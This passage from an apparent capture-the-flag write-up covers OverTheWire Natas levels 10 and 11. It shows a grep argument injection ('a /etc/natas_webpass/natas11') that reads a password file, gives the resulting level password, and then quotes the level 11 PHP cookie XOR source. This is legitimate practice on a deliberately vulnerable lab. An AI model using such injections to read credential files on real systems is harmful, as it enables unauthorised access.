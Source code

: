 ```
a /etc/natas_webpass/natas11
```

so that the full command being run is

```
grep -i a /etc/natas_webpass/natas11 dictionary.txt
```

This means it will search for the character `a` in both files. After running this, we are not given the password for the next level, because ``a`` is not in the password/it was not found in the password file so it was not printed. So, essentially, we just have to keep guessing characters until we get something within the flag. The final injection that worked for me used the letter ``d``.

Injection: ``a /etc/natas_webpass/natas11``

```
Output:
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
NOTE: the rest of the output is omitted as it is LONG
```

## Level 11

User: natas11

Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

We are given a form that can be used to set the background color, as well as the following text:

> Cookies are protected with XOR encryption

Interesting, let's view the source code.

```
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

```